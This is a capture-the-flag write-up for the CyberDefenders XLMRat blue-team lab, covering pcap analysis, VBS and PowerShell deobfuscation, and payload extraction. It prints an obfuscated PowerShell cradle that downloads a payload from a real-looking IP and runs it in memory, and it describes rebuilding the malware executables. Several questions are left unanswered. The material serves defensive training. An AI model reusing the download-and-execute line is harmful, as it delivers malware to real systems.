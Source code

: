 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

	This pcap consists of 2 host conversations.
	
	Wireshark -> Statistics -> Conversations


 
	The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

 
 
 
	Use WireShark to export the HTTP files to your Windows Flare VM
	
	File -> Export Objects -> HTTP
	


	The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that gets concatenated using a for loop.
	


 ***RUN CODE AT YOUR OWN RISK
 
  By placing the wscript.echo command we can view the output of the variable to the console.



	Open a command prompt and run the .vbs file with cscript.exe displaying the output 



	Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

	This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)


### 2.  
Which hosting provider owns the associated IP address?
---

	Using a web site like https://whois.domaintools.com/ shows the hosting provider name.



### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

	Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables some PowerShell and VBS.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  




	Spin up a simple PowerShell script to convert both HEX values to executables.
	

	
	Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		
	


	Get the SHA256 of the Stub.exe file as this is the malware executable
	
	
	 

### 4.  
What is the malware family label based on Alibaba?
---


### 5.  What is the timestamp of the malware's creation?
---


### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

	We can grab the portion of LOLBin code and run it independently giving us the path.  



### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---
